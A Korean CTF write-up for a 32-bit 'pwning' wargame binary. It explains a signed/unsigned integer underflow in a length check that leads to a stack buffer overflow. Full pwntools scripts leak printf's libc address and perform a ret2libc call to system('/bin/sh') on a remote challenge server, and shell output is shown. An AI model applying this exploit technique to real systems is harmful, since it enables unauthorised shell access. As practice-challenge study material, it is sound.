 # Pwning

```c
kimdong@ubuntu  ~/Wargame/300~350  file pwning
pwning: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.24, BuildID[sha1]=4b6d53bc9aca0e73953173f153dc75bd540d6a48, not stripped

kimdong@ubuntu  ~/Wargame/300~350  checksec pwning
[*] '/home/kimdong/Wargame/300~350/pwning'
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      No PIE (0x8048000)
```
이번 바이너리파일은 32-bit로 NX-bit가 설정되어있다.<br>

```c
[1]kimdong@ubuntu  ~/Wargame/300~350  ./pwning
How many bytes do you want me to read? 1234
No! That size (1234) is too large!

[2] kimdong@ubuntu  ~/Wargame/300~350  ./pwning
How many bytes do you want me to read? 12
Ok, sounds good. Give me 12 bytes of data!
aaaaaaaaaaaa
You said: aaaaaaaaaaaa
```
실행시켜보면, 문자열이 출력되고 사용자의 입력값을 받는다.<br>

길이가 매우크면 [1]과 같이 문자열이 출력되고, 적당한 길이를 넣으면 [2]와 같이 사용자의 입력값을<br>
다시 받는다.<br>

```c
int vuln()
{
  char nptr; // [esp+1Ch] [ebp-2Ch]
  int v2; // [esp+3Ch] [ebp-Ch]

  printf("How many bytes do you want me to read? ");
  get_n(&nptr, 4);
  v2 = atoi(&nptr);
  if ( v2 > 32 )
    return printf("No! That size (%d) is too large!\n", v2);
  printf("Ok, sounds good. Give me %u bytes of data!\n", v2);
  get_n(&nptr, v2);
  return printf("You said: %s\n", &nptr);
}
```
ida로 보면 사용자의 입력값이 32byte보다 큰지 검증한다.<br>

여기서 `get_n`이라는 함수를 사용한다.<br>

```c
int __cdecl get_n(int a1, unsigned int a2)
{
  int v2; // eax
  int result; // eax
  char v4; // [esp+Bh] [ebp-Dh]
  unsigned int v5; // [esp+Ch] [ebp-Ch]

  v5 = 0;
  while ( 1 )
  {
    v4 = getchar();
    if ( !v4 || v4 == 10 || v5 >= a2 )
      break;
    v2 = v5++;
    *(v2 + a1) = v4;
  }
  result = a1 + v5;
  *(a1 + v5) = 0;
  return result;
}
```

a1에 v5를 더하는 식으로 계산을 하는데, v5가 `unsigned int`이므로, -1을 넣어주었을때, 언더플로우가 일어나 최대값을 갖게된다.<br>

이 방법을 통해 `BOF`취약점을 이용해 ret의 주소를 `/bin/sh`로 바꾸면 될것 같다.<br>


## printf_addr Leak Code

```c

from pwn import *

p = remote("ctf.j0n9hyun.xyz",3019)
context.log_level = "debug"
e = ELF("pwning")
printf_plt = e.plt["printf"]
printf_got = e.got["printf"]
vuln_addr = 0x0804852f

payload1 = "-1"
p.recvuntil("How many bytes do you want me to read? ")
p.sendline(payload1)
p.recvuntil("\n")

payload2 = "A"*48
payload2 += p32(printf_plt)
payload2 += p32(vuln_addr)
payload2 += p32(printf_got)
p.sendline(payload2)
p.recvuntil("\n")
d=p.recv()
print_addr = u32(d[:4])
print(hex(print_addr))

p.interactive()
```
printf_addr은 `0xf7e0f020`의 주소지로 나왔다.<br>

따라서 system함수의 offset은 `0x03a940`이고, bin_sh의 offset은 `0x15902b`이다 .<br>

offset을 구한 방법은 `libc_database`를 이용하였는데, printf_addr의 뒤의 3byte를 입력하면 해당하는 libc정보들이 나오는데, 여러가지가 나올시 한개의 함수를 하나 더 Leak을 해서 알맞은 libc를 고르면 된다.<br>


이제 익스코드를 작성해보자.<br>

---

## Exploit Code

```c
from pwn import *

p = remote("ctf.j0n9hyun.xyz",3019)
context.log_level = "debug"
e = ELF("pwning")
printf_plt = e.plt["printf"]
printf_got = e.got["printf"]
vuln_addr = 0x0804852f
printf_offset = 0x49020
system_offset = 0x03a940
bin_sh_offset = 0x15902b

payload1 = "-1"
p.recvuntil("How many bytes do you want me to read? ")
p.sendline(payload1)
p.recvuntil("\n")

payload2 = "A"*48
payload2 += p32(printf_plt)
payload2 += p32(vuln_addr)
payload2 += p32(printf_got)
p.sendline(payload2)
p.recvuntil("\n")
d=p.recv()
print_addr = u32(d[:4])
print(hex(print_addr))

libc_base = print_addr - printf_offset
system_addr = libc_base + system_offset
binsh_addr = libc_base + bin_sh_offset

p.sendline(payload1)
p.recvuntil("Ok, sounds good. Give me 4294967295 bytes of data!\n")
payload3 = "A"*48
payload3 += p32(system_addr)
payload3 += "a"*4
payload3 += p32(binsh_addr)
p.sendline(payload3)
p.interactive()

```

```c

$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0xa bytes:
    'flag\n'
    'main\n'
flag
main

```

## END !
